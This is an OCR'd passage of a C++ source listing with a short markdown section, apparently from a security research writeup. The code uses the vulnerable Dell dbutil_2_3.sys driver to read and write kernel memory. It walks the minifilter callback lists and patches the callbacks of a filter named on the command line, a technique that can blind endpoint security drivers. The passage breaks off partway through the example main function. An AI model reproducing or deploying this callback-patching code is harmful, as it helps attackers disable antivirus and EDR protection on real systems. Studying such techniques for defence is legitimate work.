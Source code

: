 ```C++
						sizeof(DWORD64)
					);
					if (!b) return FALSE;
					puts("\t\t** PATCHED");
					numPatched++;
				}

				// read the next FLINK
				b = this->objMemHandler->VirtualRead(
					lpListIter,
					&lpListIter,
					sizeof(DWORD64)
				);
				if (!b) return FALSE;
			} while (lpListIter != lpListHead);
		}
	}
	printf("Patched %d callbacks\n", numPatched);
	return TRUE;
}
```

---


#### 2.3 Example

This example code uses the dbutil_2_3.sys driver for virtual read/write, and will replace all callbacks for the argument-supplied filter.


```C++
#include <Windows.h>
#include "memory.h"
#include "FltUtil.h"

int main(int argc, char** argv) {
	if (argc != 2) {
		puts("Useage: dell_fsutil.exe <FILTER_NAME>");
		return -1;
	}

	char* strFilterName = argv[1];
	wchar_t* wstrFilterName = new wchar_t[strlen(strFilterName) + 2];
	size_t numConv = 0;
	mbstowcs_s(&numConv, wstrFilterName, strlen(strFilterName) + 2,strFilterName, strlen(strFilterName));
	printf("Enumerating for filter %S\n", wstrFilterName);


	// initialize the class for dbutil_2_3
	Memory m = Memory();

	// initialize a FltManager object
	FltManager oFlt = FltManager(&m);
	HANDY_FUNCTIONS gl_hf = { 0 };

	// resolve the functions we'll use to replace our target filter's callbacks
	BOOL resolvedPatchFuncs = oFlt.ResolveFunctionsForPatch(&gl_hf);

	if (!resolvedPatchFuncs) {
		puts("Failed to resolve functions used for patching!");
		exit(-1);
	}

```